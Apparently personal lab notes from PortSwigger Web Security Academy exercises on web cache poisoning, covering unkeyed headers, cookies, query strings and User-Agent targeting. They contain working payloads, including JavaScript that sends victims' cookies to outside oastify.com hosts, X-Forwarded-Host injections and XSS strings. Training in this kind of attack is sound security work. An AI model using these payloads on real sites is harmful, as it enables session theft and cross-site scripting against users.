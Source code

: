 ___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.

![[Pasted image 20240808103007.png]]

If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response

![[Pasted image 20240808103015.png]]

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com


![[Pasted image 20240808105803.png]]

## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;

![[Pasted image 20240808112148.png]]


# Web cache poisoning with an unkeyed cookie

![[Pasted image 20240808152709.png]]

```js
test"-alert(1)-"test
```

![[Pasted image 20240808152936.png]]

# Web cache poisoning with multiple headers

![[Pasted image 20240809035334.png]]

The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`

![[Pasted image 20240809035608.png]]

> On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write `alert(document.cookie)` script.

```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```

To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser.


# Targeted web cache poisoning using an unknown header

X-Forwarded-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Forwarded-Server: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net

Vary: User-Agent

```html
<img src="http://7fnahm68mm5got179axb1rv59wfn3c.oastify.com/" />
```

User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Change User-Agent on the request
![[Pasted image 20240809114403.png]]

# Web cache poisoning via an unkeyed query string

utm_content=yui1kx7r00

```js
/?cb=1244&utm_content=vaina'/><script>alert(1)</script>
```


# Web cache poisoning via an unkeyed query parameter






